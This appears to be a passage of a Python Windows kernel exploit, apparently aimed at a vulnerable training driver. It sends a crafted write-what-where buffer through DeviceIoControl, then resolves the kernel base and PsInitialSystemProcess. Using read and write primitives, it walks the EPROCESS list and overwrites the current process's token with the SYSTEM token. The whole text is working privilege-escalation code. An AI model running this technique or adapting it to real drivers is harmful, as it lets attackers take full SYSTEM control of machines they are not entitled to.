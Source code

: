 ```
    write_what_object_ptr = id(write_what_object) + 0x20
    write_what_final = struct.pack("&lt;Q", write_what_object_ptr)
    buf = write_what_final + write_where
    buflen = len(buf)
    kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)


    kernelImage = "ntoskrnl.exe"
    kernelImageBase = find_kernelBase(kernelImage.split())[0]

    kernel32.LoadLibraryA.restype = HMODULE
    hKernelImage = kernel32.LoadLibraryA(kernelImage)
    print "[+] Module Name                                  : `{`0`}`".format(kernelImage)
    print "[+] Module Base(Userland)                        : `{`0`}`".format(hex(hKernelImage))

    kernel32.GetProcAddress.restype = c_ulonglong
    kernel32.GetProcAddress.argtypes = (HMODULE, LPCSTR)
    PsISP_user_addr = kernel32.GetProcAddress(hKernelImage,"PsInitialSystemProcess")
    print "[+] PsInitialSystemProcess Userland Base Address : `{`0`}`".format(hex(PsISP_user_addr))

    PsISP_kernel_addr_ptr = kernelImageBase + (PsISP_user_addr - hKernelImage)
    print "[+] PsInitialSystemProcess Kernel Base Address   : `{`0`}`".format(hex(PsISP_kernel_addr_ptr))

    PsISP_kernel_addr = c_ulonglong()
    read_mem(PsISP_kernel_addr_ptr, byref(PsISP_kernel_addr), sizeof(PsISP_kernel_addr));
    SYSTEM_EPROCESS = PsISP_kernel_addr.value
    print "[+] SYSTEM EPROCESS                              : `{`0`}`".format(hex(SYSTEM_EPROCESS))


    token_off = 0x358
    unique_process_id_off = 0x2e0
    active_process_links_off = 0x2e8

    flink = c_ulonglong()
    read_mem(SYSTEM_EPROCESS + active_process_links_off, byref(flink), sizeof(flink)); 

    CURRENT_EPROCESS = 0
    while (True):
        unique_process_id = c_ulonglong(0)

        # Adjust EPROCESS pointer for next entry
        EPROCESS = flink.value - unique_process_id_off - 0x8

        read_mem(EPROCESS + unique_process_id_off, byref(unique_process_id), sizeof(unique_process_id));    

        # Check if we're in the current process
        if (os.getpid() == unique_process_id.value):
            CURRENT_EPROCESS = EPROCESS
            break

        read_mem(EPROCESS + active_process_links_off, byref(flink), sizeof(flink)); 

        # If next same as last, we've reached the end
        if (EPROCESS == flink.value - unique_process_id_off - 0x8):
            break
    print "[+] CURRENT EPROCESS                             : `{`0`}`".format(hex(CURRENT_EPROCESS))

    system_token = c_ulonglong()
    read_mem(SYSTEM_EPROCESS + token_off, byref(system_token), sizeof(system_token));
    write_mem(CURRENT_EPROCESS + token_off, byref(system_token), sizeof(system_token));
```